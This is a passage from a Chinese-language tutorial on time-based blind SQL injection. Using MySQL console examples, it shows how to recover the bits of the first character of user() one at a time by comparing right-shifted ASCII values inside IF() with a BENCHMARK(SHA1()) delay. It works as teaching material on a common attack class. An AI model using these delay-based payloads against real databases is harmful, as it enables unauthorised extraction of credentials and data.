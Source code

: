 
第三位：

接下来是第三位的值，同上，有以下两种情况：

01 **0**（十进制值：2）// TRUE
或者
01 **1**（十进制值：3）// FALSE
```
mysql> select if ((ascii((substr(user(),1,1))) >> 5 )=2,benchmark(10000000,sha1('test')), 'false');
 
+--------------------------------------------------------------------------------------+
 
| if ((ascii((substr(user(),1,1))) >> 5 )=2,benchmark(10000000,sha1('test')), 'false') |
 
+--------------------------------------------------------------------------------------+
 
| false                                                                                |
 
+--------------------------------------------------------------------------------------+
 
1 row in set (0.00 sec)
```
SQL查询没有时延，所以条件为FALSE，即第三位为1

01 **1** ?????

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220104-9406679a-d927-1.png)


第四位：

然后是第四位的值。同上，有两种可能：

011 **0**（十进制：6）//TRUE
或者
011 **1**（十进制：7）// FALSE
```
mysql> select if ((ascii((substr(user(),1,1))) >> 4 )=6,benchmark(10000000,sha1('test')), 'false');

+--------------------------------------------------------------------------------------+

| if ((ascii((substr(user(),1,1))) >> 4 )=6,benchmark(10000000,sha1('test')), 'false') |

+--------------------------------------------------------------------------------------+

| false                                                                                |

+--------------------------------------------------------------------------------------+

1 row in set (0.00 sec)
```
SQL查询没有时延，所以条件为FALSE，即第四位为1

011 **1** ????
